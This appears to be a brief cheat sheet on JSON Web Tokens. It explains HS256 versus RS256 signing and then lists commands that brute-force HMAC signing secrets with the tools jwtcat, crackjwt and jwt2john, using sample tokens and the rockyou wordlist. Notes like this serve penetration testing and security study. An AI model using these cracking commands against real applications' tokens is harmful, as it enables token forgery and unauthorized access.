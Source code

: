JSON Web Token is a compact mechanism used for transferring claims between two Endpoint to protect the integrity of the underlying message using a Message Authentication Code (MAC) encrypted. A JSON Web Token consists of three parts; an encoded Header, an encoded Payload and the Signature.





### HMAC secretKey  Brute-force attacks Using Known Wordlist attacks
The algorithm HS256 uses the secret key to sign and verify each message. The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

```
python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.J8SS8VKlI2yV47C4BtfYukWPx_2welF34Mz7l-MNmkE -w /usr/share/wordlists/rockyou.txt

python3 jwtcat.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 -w /usr/share/wordlists/rockyou.txt

python crackjwt.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4 /usr/share/wordlists/rockyou.txt

python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4  > jwt.john

```
